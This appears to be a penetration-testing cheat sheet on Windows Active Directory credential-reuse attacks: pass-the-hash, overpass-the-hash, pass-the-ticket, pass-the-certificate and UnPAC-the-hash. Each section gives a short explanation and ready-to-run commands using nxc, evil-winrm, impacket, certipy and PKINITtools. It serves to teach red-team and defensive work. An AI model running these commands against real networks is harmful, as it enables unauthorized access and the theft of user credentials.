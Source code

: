# Pass-the-\*

## Pass the hash

>In computer security, **pass the hash** is a hacking technique that allows an attacker to authenticate to a remote server or service by using the underlying NTLM or LanMan hash of a user's password, instead of requiring the associated plaintext password as is normally the case. It replaces the need for stealing the plaintext password to gain access with stealing the hash.

### Examples

```bash
# smb
nxc smb 10.10.10.10 -u admin -H 3b3ecc95801ddd132380e20a9ab5126c

# winrm
evil-winrm -i 10.10.10.10 -u admin -H 3b3ecc95801ddd132380e20a9ab5126c

# rdp
xfreerdp /v:10.10.10.10 /u:admin /pth:'3b3ecc95801ddd132380e20a9ab5126c'
```

## Overpass-the-Hash | Pass-the-key

>**Over Pass the Hash** is a Kerberos-based attack that requires an attacker to use the obtained hashes to request a full Kerberos **TGT** ticket from the **KDC (***Kerberos Domain Controller)*on behalf of the compromised user. This technique is often used in tandem with ***Pass the Ticket,\*** in which the forged tickets are passed and reinjected many times until they expire to bypass communications with the KDC.
>
>**OPTH** can be an impactful attack if attackers have compromised hashes with a single-sign-on option. They would be able to leverage the TGT requests to get service tickets to many resources within the network.

### Example

- To execute this attack, the initial step involves acquiring the NTLM hash or password of the targeted user's account. Upon securing this information, a Ticket Granting Ticket (TGT) for the account can be obtained, allowing the attacker to access services or machines to which the user has permissions.

```bash
python getTGT.py domain.local/tom -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/tom.ccache
python psexec.py domain.local/tom@lab01.domain.local -k -no-pass
```

## Pass the ticket

>Pass the Ticket is a sophisticated cyberattack that targets the **Kerberos** authentication protocol. In this type of attack, an adversary steals a Kerberos Ticket Granting Ticket (TGT) from a compromised machine. This stolen ticket is then used to impersonate the legitimate user, allowing the attacker to gain unauthorized access to network resources without needing the user's password.

### Example

```bash
export KRB5CCNAME=/root/impacket-examples/krb5cc_1120601113_ZFxZpK 
python psexec.py domain.local/tom@lab01.domain.local -k -no-pass
```

## Pass-The-Certificate

>The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to ASREProast). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.
>
>Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along shadow credentials, AD CS escalation and UnPAC-the-hash attacks.
>
>**Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key**. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.
>
>The "certificate + private key" pair is usually used in the following manner
>
>- PEM certificate + PEM private key
>- PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)

### Example

```bash
# request a TGT with the certificate of user
certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
```

## UnPac the Hash

>When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a `PAC_CREDENTIAL_INFO` structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user. This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).
>
>The NTLM keys will then be recoverable after a TGS-REQ through U2U, combined with S4U2self, which is a Service Ticket request made to the KDC where the user asks to authenticate to itself (i.e. S4U2self + User-to-User authentication).
>
>The following protocol diagram details how UnPAC-the-hash works. It allows attackers that know a user's private key, or attackers able to conduct Shadow Credentials or Golden certificate attacks, to recover the user's LM and NT hashes.

### Examples

From UNIX-like systems, this attack can be conducted with PKINITtools (Python).

The first step consists in **obtaining a TGT** by validating a PKINIT pre-authentication first.

```bash
gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

Once the TGT is obtained, and the session key extracted (printed by gettgtpkinit.py), the getnthash.py script can be used to recover the NT hash.

```bash
export KRB5CCNAME="TGT_CCACHE_FILE"
getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
```

The NT hash can be used for pass-the-hash, silver ticket, or Kerberos delegations abuse.
